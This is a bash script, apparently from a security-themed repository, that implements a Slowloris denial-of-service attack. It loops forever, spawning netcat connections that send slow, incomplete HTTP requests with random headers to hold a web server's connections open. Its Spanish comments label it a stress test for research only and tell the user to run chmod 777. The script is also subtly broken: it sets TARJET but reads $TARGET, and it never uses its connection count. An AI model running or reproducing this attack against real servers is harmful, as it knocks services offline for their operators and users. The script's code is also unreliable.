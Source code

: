 # slowloris

#!/bin/bash
# Slowloris test de stress
# Solo para fines de investigacion.
# chmod 777 slowloris.sh
# ./slowloris.sh

LHOST=127.0.0.1
LPORT=9991
while true; do
TARJET=web.hackingyseguridad.com
CONNS=99999
INTERVAL=99
echo -e "GET / HTTP/1.1\r\nHost: $TARGET\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nDNT: 1\r\nConnection: keep-alive\r\nCache-Control: no-cache\r\nPragma: no-cache\r\n$RANDOM: $RANDOM\r\n"|nc -i $INTERVAL -w 30000 $LHOST $LPORT  2>/dev/null 1>/dev/null & i=$((i + 1)); done
